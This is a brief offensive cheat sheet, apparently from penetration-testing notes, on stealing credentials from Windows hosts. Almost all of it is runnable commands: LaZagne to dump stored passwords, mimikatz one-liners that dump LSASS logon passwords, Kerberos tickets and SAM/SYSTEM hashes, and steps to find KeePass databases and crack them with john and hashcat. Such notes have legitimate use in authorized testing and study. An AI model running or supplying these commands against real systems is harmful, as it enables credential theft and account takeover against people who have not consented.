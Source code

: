
# Windows
## LaZagne

- https://github.com/AlessandroZ/LaZagne

```powershell
.\lazagne.exe all
```

## mimikatz

- https://github.com/gentilkiwi/mimikatz/wiki
- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/mimikatz-cheatsheet/#execute-commands
- https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```powershell
# mimikatz one-liner
.\mimikatz64.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "lsadump::sam" "exit"

.\mimikatz64.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

.\mimikatz64.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# SAM & SYSTEM
./mimikatz64.exe "lsadump::sam  /system:C:\windows.old\windows\system32\SYSTEM /sam:C:\windows.old\windows\system32\SAM" "exit"
```

```
privilege::debug
mimikatz token::elevate
sekurlsa::logonpasswords
sekurlsa::tickets
sekurlsa::minidump lsass.dmp
```

## Password Manager (kdbx)

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

keepass2john Database.kdbx > keepass.hash

john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash 

hashcat --help | grep -i "KeePass"

hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
